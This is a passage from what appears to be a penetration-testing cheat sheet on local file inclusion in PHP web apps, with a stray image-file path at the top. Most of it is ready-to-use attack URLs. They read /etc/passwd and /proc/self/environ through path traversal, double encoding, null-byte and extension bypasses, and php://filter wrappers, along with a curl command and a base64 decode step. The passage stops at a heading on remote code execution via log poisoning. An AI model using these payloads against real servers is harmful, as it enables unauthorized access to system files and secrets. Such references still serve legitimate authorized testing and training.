     # Avoiding ..
    http://<target_url>/file.php?recurse=.?/.?/.?/.?/.?/etc/passwd
    http://<target_url>/file.php?recurse=.*/.*/.*/.*/.*/etc/passwd
    http://<target_url>/file.php?recurse=.?/.?/.?/.?/.?/etc/passwd
    
    # Double URL encoding
    http://<target_url>/file.php?recurse=%252e%252e%252fetc%252fpasswd
    
    # Repeated slashes bypass
    http://<target_url>/file.php?recurse=....//....//....//etc/passwd
    
    # Viewing a file with null byte injection
    http://<target_url>/file.php?recurse=../../../../../etc/passwd%00
    
    # Bypass file extension restrictions
    http://<target_url>/file.php?recurse=../../../../../etc/passwd%2500.jpg
    
    # Retrieve system environment variables
    http://<target_url>/file.php?recurse=../../../../../proc/self/environ
    

##### 3.3.1.3 LFI Wrappers

Wrappers are mechanisms that let you change the file processing behavior to reveal sensitive data or
                interact with server components:

- **Base64 encode a file:**

    http://<target_url>/file.php?recurse=php://filter/convert.base64-encode/resource=<file_name>
    
    # Decode base64-encoded output
    echo "<BASE64_ENCODED_OUTPUT>" | base64 -d
    

- **ROT13 encoding:**

    http://<target_url>/file.php?recurse=php://filter/read=string.rot13/resource=<file_name>
    

- **PHP Wrapper:**

    curl "http://<TARGET>/index.php?page=php://filter/convert.base64-encode/resource=<FILE>"
    

##### 3.3.1.4 Remote Code Execution via LFI

###### 3.3.1.4.1 Log Poisoning (Apache or SSH Logs)
